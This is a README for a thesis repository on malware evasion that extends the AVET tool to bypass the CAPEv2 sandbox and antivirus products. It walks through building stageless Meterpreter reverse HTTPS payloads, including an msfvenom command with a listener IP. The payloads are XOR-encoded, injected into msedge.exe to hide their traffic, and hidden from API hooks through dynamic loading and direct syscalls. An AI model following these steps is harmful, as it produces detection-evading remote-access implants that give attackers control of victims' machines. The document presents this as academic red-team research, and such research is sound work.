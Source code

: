 # Repository Overview

This repository hosts the implementation of Ayoub's Master Thesis, which explores Malware Obfuscation and Evasion Techniques. The primary focus is on developing methods to bypass the CAPEv2 sandbox.

The repository also enhances the AntiVirus Evasion Tool (AVET) with several notable improvements:

- Introduction of a script to build a **stageless** Meterpreter for performing a shellcode injections.
- Development of a shellcode injection method that identifies the **target process by name**, automatically determining the PID. This approach is more suitable for Red Teaming scenarios than the original AVET method, which required a *PID to be specified at the command line*.
- Addition of advanced shellcode injection techniques that use **dynamic API loading**.
- Implementation of a version that use **dynamic loading of NTAPIs**.
- Addition of a version that use **direct syscall**.
- Fixed a bug in the `static_from_here` function. Previously, this function included and called `static_from_file`. However, due to the use of `#pragma once`, macros defined specifically for `static_from_here` were not available in the scope of `static_from_file` if `static_from_file` was included before its invocation by `static_from_here`.

Furthermore, the repository includes a custom xor encoder designed to enhance evasion capabilities, addressing the limitations of the existing AVET encoder that fails to hide the payload against AVs statically.

## Author

BOUHNINE Ayoub

## Repository Structure

The repository is organized as follows:

- **Custom Payloads:** Contains various custom payloads.
- **AVET Folder:** Hosts the AVET (AntiVirus Evasion Tool).
- **SysWhispers3 Folder:** Used for generating (or possibly statically embedding different payloads within AVET).

## Research Paper

The accompanying thesis paper is available for download in the [paper folder](./paper/thesis.pdf).

## Installing AVET

__The Installtion Instruction applies for Kali 64bit and tdm-gcc!__

You can use the setup script:
```bash
./setup.sh
```

This should automatically get you started by installing/configuring wine and installing tdm-gcc.
You'll shortly have to click through the tdm-gcc installer GUI though - standard settings should be fine.
The script will also ask if you want to install AVET's dependencies, which are needed to use some of the build scripts. The fetched dependencies will be put into separate folders next to the avet folder.


Dependencies will grab the latest releases of:
- [pe_to_shellcode](https://github.com/hasherezade/pe_to_shellcode)
- [mimikatz](https://github.com/gentilkiwi/mimikatz)
- [DKMC](https://github.com/Mr-Un1k0d3r/DKMC)


If for whatever reason you want to install wine and tdm-gcc manually:
- [How to install tdm-gcc with wine](https://govolution.wordpress.com/2017/02/04/using-tdm-gcc-with-kali-2/)

## Evasion Techniques

The samples, available on the directory `samples/` included in this repository use several evasion techniques:

- **Obfuscation:** A stageless Meterpreter x64 reverse HTTPS payload that employs a basic XOR encryption is used. This technique is implemented in all the samples.
- **Shellcode Injection:** an injection of the Meterpreter payload is performed into **msedge.exe**, this could fool security solutions since Microsoft Edge regularly perform HTTPS request, therefore the Meterpreter traffic will be hidden with the regular Ms Edge traffic. This is implemented in all the samples.
- **Basic API calls:** This is not an evasion tehcniques however, the sample implemeting this will serve as a baseline for other sample. This is implemented in the sample `Shellcode_injection`.
- **Dynamic API Loading:** This is a basic method used to hide the APIs from the Import Address Table. This will resolve the APIs by loading them dynamically. This is implemented in the sample `Shellcode_injection_dynamic_lib`.
- **NTAPIs:** This is a more advances tehcniques where we load the NTAPIs instead of the classical APIs dynamically. This could potentially bypass security solutions that does not hook the `ntdll.dll`. This is implemented in the sample `Shellcode_injection_NTAPIs`.
- **Evasion of API Hooks by Direct Syscalls:** This tehcniqeus is used to bypass the API hooking of classical APIs and NTAPIs by using a Direct Syscalls technique. This is implemented in the sample `Shellcode_injection_syscalls`

These techniques have been integrated by the author within the AVET framework available on this repo. For syscall generation, the tool **SysWhispers3** is used, available at: [SysWhispers3 on GitHub](https://github.com/klezVirus/SysWhispers3).

## Modification of the payload

The payload used is stageless Meterpreter x64 reverse HTTPS payload that employs a basic XOR encryption is used. This has to be replaced if you want to use your payload with the right IP address.

## Utils

### XORing Meterpreter payloads

For xoring the payload we used the code available on `XOR_encryptor`.

To do so:
- Generate your payload using **msfvenom** : `msfvenom -p windows/x64/meterpreter_reverse_https lhost=192.168.173.130 lport=443 -f c > payload.h`
- Take the file newly generated and give it as input to the executable `XOR_encryptor.exe`, this can be used with the following command : `.\XOR_encryptor.exe payload.h <output_file_name>` for example in our case the output filename is `buffer.h `
- Add the newly generated file into Visual Studio. Then include the file into the sample of your choice.
You should be ready to go !

In a kali machine, ensure you have `wine` installed, then you have to simply execute the command with `wine` as a prefix and you should have your XORed payload generated.

### For generating direct syscalls using Syswhisper3

In a Visual Studio Setup:

- move to the `syswhispers` directory
- `python.exe syswhispers.py --function NtOpenProcess,NtAllocateVirtualMemory,NtWriteVirtualMemory,NtCreateThreadEx -o output/syscall`
- Copy the generated H/C/ASM files into the project folder.
- In Visual Studio, go to Project → Build Customizations... and enable MASM.
- In the Solution Explorer, add the .h and .c/.asm files to the project as header and source files, respectively.
- Go to the properties of the ASM file, and set the Item Type to Microsoft Macro Assembler.
- Compile it

You should be ready to go !

Don't forget to properly call the functions generated `Sw3...()`

Sometimes some adjustement is needed to properly compile the project, make sure they are no redefinition of the same structures. The samples I provided are fully working  (they compile without any issue)

## Extension of AVET

This section outlines the scripts and files that have been added:

**In the `build/` directory:**
- `build_injectshc_xor_revhttps_stageless_win64.sh` ... [details here]

**In the `source/implementations/payload_execution_method` directory:**
- `inject_shellcode_procname.h` ... [details here]

**Note:**
- The `static_from_here.h` script from `source/implementations/retrieve_data/` has been modified to address the bug fix detailed earlier.